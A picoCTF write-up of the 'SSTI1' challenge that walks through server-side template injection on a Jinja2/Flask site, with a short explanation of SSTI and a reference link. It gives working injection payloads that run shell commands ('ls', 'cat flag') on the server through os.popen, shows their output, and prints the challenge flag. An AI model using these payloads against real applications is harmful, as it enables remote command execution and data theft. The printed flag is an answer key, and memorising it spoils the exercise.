


# Web Gauntlet
---
# SSTI1 

Was provided with a website: http://rescued-float.picoctf.net:61245/ 

Its a python server, so its most probably gonna be jinja2. I found this using Burp Suite by examining the server name in the GET requests.   



As the name of the challenge suggests, I have to implement server side template injection.
I learnt what is Server Side Template Injection using the reference provided in the end.  
This is how the website looks like: 



On providing input of hello, the website is redirected to  http://rescued-float.picoctf.net:61245/announce and displays this:  


Providing input of `{{ 7*7 }}` gave me output of 49, so its confirmed that its jinja2. 
Now  I can begin crafting my payload 

My ultimate aim is to check what files are there on the server and then read those files to get the flag. 
What I need to do is do remote command execution, basically run, 'ls', 'cat' etc. on the server via the template injection. 

After referring to the reference provided below, I created this payload: 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

Output: 
```
# __pycache__ app.py flag requirements.txt
```
What this does is basically , runs the command `ls`  on the server and returns its output. 
Break down: 
1. `request.application` - Accesses the Flask application object through request context
2. `__globals__` - Gets the global variables of the application module 
3. `.__builtins__` - Accesses Python's built-in functions (like `open`, `eval`, `__import__`, etc.)
4. `.__import__('os')` - Imports the `os` module
5. `.popen('id')` - Opens a pipe to execute the `id` command in the shell. `popen()` runs shell commands and returns a file-like object
6. `.read()` - Reads the output from the command

Now as I know the file `flag` is present in the present working directory. I can read it using`cat`. 

Input: 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

Output: 
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}
```

flag:`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}`
#### What is SSTI ? 

A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort. Templates can be used when only minor details of a page need to change from circumstance to circumstance. For example, depending on the IP that accesses a site, the site may look like:

```htmlmixed=
<h1>Welcome to the page!</h1>
<u>This page is being accessed from the remote address: {{ip}}</u>
```

Instead of creating a whole new page per person that accesses the site, it will simply render the remote address into the `{{ip}}` variable, while reusing the rest of the HTML for each person request the server receives to that endpoint.

This can be abused, since some template engines support some fairly complex functionality, that eventually allow for developers to run commands or file contents straight from the template.

### Reference: 

https://onsecurity.io/article/server-side-template-injection-with-jinja2/

---
# Cookies 


 

